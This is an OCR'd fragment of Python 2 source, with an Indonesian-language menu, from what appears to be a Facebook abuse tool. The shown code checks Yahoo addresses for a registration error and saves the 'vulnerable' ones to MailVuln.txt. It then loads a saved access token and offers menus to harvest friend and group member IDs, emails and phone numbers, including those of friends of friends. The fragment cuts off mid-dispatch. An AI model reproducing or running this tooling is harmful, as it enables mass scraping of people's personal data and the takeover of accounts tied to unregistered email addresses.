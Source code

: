             if '"messages.ERROR_INVALID_USERNAME">' in pek:
                save.write(mail + '\n')
                print '\x1b[1;92m ' + mail
            else:
                print '\x1b[1;91m ' + mail

    print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'
    print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'
    save.close()
    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
    menu_yahoo()


def grab():
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('reset')
    print logo
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;37;40m1. Ambil ID teman'
    print '\x1b[1;37;40m2. Ambil ID teman dari teman'
    print '\x1b[1;37;40m3. Ambil ID member GRUP'
    print '\x1b[1;37;40m4. Ambil Email teman'
    print '\x1b[1;37;40m5. Ambil Email teman dari teman'
    print '\x1b[1;37;40m6. Ambil No HP teman'
    print '\x1b[1;37;40m7. Ambil No HP teman dari teman'
    print '\x1b[1;31;40m0. Kembali'
    print
    grab_pilih()


def grab_pilih():
    cuih = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')
    if cuih == '':
        print '\x1b[1;91m[!] Jangan kosong'
        grab_pilih()
    else:
        if cuih == '1':
            id_teman()
        else:
            if cuih == '2':
                idfrom_teman()
            else:
                if cuih == '3':
                    id_member_grup()
                else:
                    if cuih == '4':
                        email()
                    else:
                        if cuih == '5':
                            emailfrom_teman()
                        else:
                            if cuih == '6':
                                nomor_hp()
                            else:
                                if cuih == '7':
                                    hpfrom_teman()
                                else:
                                    if cuih == '0':